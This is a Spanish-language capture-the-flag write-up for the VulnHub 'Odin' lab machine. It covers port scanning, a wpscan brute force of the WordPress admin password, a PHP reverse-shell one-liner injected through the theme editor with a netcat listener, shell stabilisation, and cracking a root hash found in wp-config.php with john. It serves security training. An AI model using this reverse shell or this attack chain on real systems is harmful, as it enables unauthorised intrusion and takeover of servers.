 # Write Up Odin VulnHub

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-25 11:32 CEST
Nmap scan report for 192.168.5.202
Host is up (0.00048s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.5.3
|_http-title: vikingarmy &#8211; Just another Joomla site
MAC Address: 00:0C:29:F6:90:B6 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.44 seconds
```

Tendremos que editar el archivo `hosts` para que nos cargue el `wordpress`...

```shell
sudo nano /etc/hosts

#Dentro del nano
<IP>        odin
```

Lo guardamos y ahora si lo recargamos nos ira...

Como hay un `wordpress` si nos vamos a `/wp-admin` veremos un panel de login, si probamos a poner como usuario `admin` y contraseña `admin` veremos que no son las credenciales pero nos confirma que el usuario `admin` existe por lo que haremos lo siguiente...

```shell
wpscan --url http://odin/ --usernames admin --passwords <WORDLIST>
```

Info:

```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://odin/ [192.168.5.202]
[+] Started: Tue Jun 25 11:40:20 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://odin/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] Registration is enabled: http://odin/wp-login.php?action=register
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://odin/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://odin/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.5.3 identified (Insecure, released on 2020-10-30).
 | Found By: Rss Generator (Passive Detection)
 |  - http://odin/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.5.3</generator>
 | Confirmed By: Emoji Settings (Passive Detection)
 |  - http://odin/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.5.3'

[+] WordPress theme in use: twentytwenty
 | Location: http://odin/wp-content/themes/twentytwenty/
 | Last Updated: 2024-04-02T00:00:00.000Z
 | Readme: http://odin/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 2.6
 | Style URL: http://odin/wp-content/themes/twentytwenty/style.css?ver=1.5
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://odin/wp-content/themes/twentytwenty/style.css?ver=1.5, Match: 'Version: 1.5'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=========================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / qwerty                                                                                                                                                              
Trying admin / jessica Time: 00:00:00 <                                                                                                          > (20 / 14344412)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: qwerty

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Jun 25 11:40:29 2024
[+] Requests Done: 160
[+] Cached Requests: 40
[+] Data Sent: 43.663 KB
[+] Data Received: 32.726 KB
[+] Memory used: 292.051 MB
[+] Elapsed time: 00:00:08
```

Veremos que nos saco las credenciales del usuario `admin`...

```
User = admin
Password = qwerty
```

Por lo que nos logueamos, y una vez dentro nos iremos a `Appearance` y dentro del mismo a `Theme Editor` de ahi vamos a la opcion llamada `Theme Functions` y dentro del codigo `php` meteremos una `Reverese Shell`...

```php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

Estamos a la escucha...

```shell
nc -lvnp <PORT>
```

Y le damos al boton de `Update File` una vez hecho eso ya tendremos una shell con el usuario `www-data`...

Sanitizamos la shell...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si nos vamos la siguiente ubicacion...

```shell
cd /var/www/html
```

Y leemos la configuracion tipica de un `worpress`...

```shell
cat wp-config.php
```

Info:

```php
/** root:$6$e9hWlnuTuxApq8h6$ClVqvF9MJa424dmU96Hcm6cvevBGP1OaHbWg//71DVUF1kt7ROW160rv9oaL7uKbDr2qIGsSxMmocdudQzjb01:18600:0:99999:7:::*/
```

Veremos una linea con eso de ahi, por lo que intentaremos crackearlo...

```shell
nano hash

#Dentro del nano
root:$6$e9hWlnuTuxApq8h6$ClVqvF9MJa424dmU96Hcm6cvevBGP1OaHbWg//71DVUF1kt7ROW160rv9oaL7uKbDr2qIGsSxMmocdudQzjb01
```

```shell
john --wordlist=<WORDLIST> hash
```

Info:

```
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
jasmine          (root)     
1g 0:00:00:00 DONE (2024-06-25 13:53) 1.960g/s 4015p/s 4015c/s 4015C/s 123456..lovers1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Veremos que la contraseña de `root` es `jasmine`, por lo que haremos lo siguiente...

```shell
su root
```

Metemos la contarseña y ya seriamos `root` ahora leeremos la flag...

> bjorn (flag\_final)

```
cσηgяαтυℓαтιση

Have a nice day!


aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj1WaGtmblBWUXlhWQo=
```
